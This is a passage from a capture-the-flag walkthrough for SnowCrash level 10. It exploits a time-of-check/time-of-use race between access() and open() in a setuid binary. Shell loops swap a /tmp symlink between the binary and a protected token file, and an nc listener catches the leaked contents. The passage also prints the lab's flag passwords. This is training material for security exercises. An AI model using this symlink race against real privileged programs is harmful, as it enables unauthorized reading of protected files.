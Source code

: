 In the first tab, we create a loop that constantly swaps the symbolic link expl between level10 and token. This leverages the race condition vulnerability between the access() and open() calls:

``` bash
level10@SnowCrash:~$ while true; do ln -fs ~/level10 /tmp/expl; ln -fs ~/token /tmp/expl; done
```

This command rapidly switches the expl symlink between the two files.

## 5: Execute the level10 Binary in a Loop

In the second tab, we execute the level10 binary in a loop, pointing it to the symbolic link. It will keep attempting to open the expl symlink, which rapidly alternates between level10 and token:

``` bash
level10@SnowCrash:~$ while true; do ./level10 /tmp/expl 127.0.0.1; done
```

This will cause the race condition, and eventually, level10 will open the token file instead of itself.

## 6 Capture the Flag

In the third tab, nc will capture the file being sent when the race condition is successful. The output will contain some junk data, but eventually, it will show the token:

``` bash
level10@SnowCrash:~$ nc -lk 6969
[...💩💩💩...]
woupa2yuojeeaaed06riuj63c
[...more 💩💩💩...]

```
The string woupa2yuojeeaaed06riuj63c is the password for the flag10 user.

## 7 Enter Level 11

``` bash
level10@SnowCrash:~$ su flag10
Password: woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
flag10@SnowCrash:~$ su level11
Password: feulo4b72j7edeahuete3no7c
```